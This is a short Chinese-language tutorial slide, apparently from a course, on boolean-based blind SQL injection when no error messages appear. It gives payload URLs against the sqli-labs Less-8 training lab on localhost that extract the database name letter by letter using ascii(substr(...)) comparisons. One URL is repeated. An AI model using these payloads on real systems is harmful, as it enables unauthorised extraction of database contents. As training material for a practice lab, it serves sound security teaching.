

# 问题：  没有报错信息时，应该怎么办？
取出数据库名称 的第2个字母，并取长为1
http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),2,1))>110 %23
http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),2,1))>110 %23
取出数据库名称 的第5个字母，并取长为1
http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr((select database()),5,1))>110 %23